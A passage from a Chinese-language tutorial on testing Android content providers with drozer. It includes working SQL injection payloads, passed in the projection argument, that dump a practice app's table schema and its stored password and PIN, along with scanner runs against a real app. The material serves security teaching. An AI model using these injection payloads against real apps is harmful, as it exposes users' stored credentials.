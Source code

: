 最后通过selection来选择过滤查询结果，假设我们只想查用户kafroc的密码，如下所示
```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "username,password" --selection "username='kafroc'"
| username | password                                          |
| kafroc   | cit/yTZ7HyCecb+GN7uFTM0NpbJKo5/7 (Base64-encoded) |
```

那么问题来了，上面都是理想情况下的用法，假设传入的参数异常，实现过程又没做恰当的处理的话，是有可能造成SQL注入的。drozer集成了一个扫描工具可以辅助测试人员扫描SQL注入情况。
```
dz> run scanner.provider.injection -a com.bj.chuanglian.coach
Scanning com.bj.chuanglian.coach...
Not Vulnerable:
  content://com.bj.chuanglian.coach.aaidinitprovider
  content://com.bj.chuanglian.coach.umeng.share.fileprovider
  ...
  content://com.bj.chuanglian.coach.lifecycle-process/
  content://com.bj.chuanglian.coach.huawei.push.provider/

Injection in Projection:
  No vulnerabilities found.

Injection in Selection:
  No vulnerabilities found.
```

漏洞样例1 - SQL注入
```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql
                                        |
| table | android_metadata | android_metadata | 3        | CREATE TABLE android_metadata (locale TEXT)
                                        |
| table | Passwords        | Passwords        | 4        | CREATE TABLE Passwords (_id INTEGER PRIMARY KEY,service TEXT,username TEXT,password BLOB,email ) |
| table | Key              | Key              | 5        | CREATE TABLE Key (Password TEXT PRIMARY KEY,pin TEXT )


dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"

| Password         | pin  |
| admin12345678900 | 6666 |
```

drozer还集成了一个扫描工具可以辅助测试人员扫描路径遍历的情况。
```
dz> run scanner.provider.traversal -a com.bj.chuanglian.coach
Scanning com.bj.chuanglian.coach...
Not Vulnerable:
  content://com.bj.chuanglian.coach.aaidinitprovider
  content://com.bj.chuanglian.coach.umeng.share.fileprovider
  ...
  content://com.bj.chuanglian.coach.lifecycle-process/
  content://com.bj.chuanglian.coach.huawei.push.provider/

Vulnerable Providers:
  No vulnerable providers found.
```
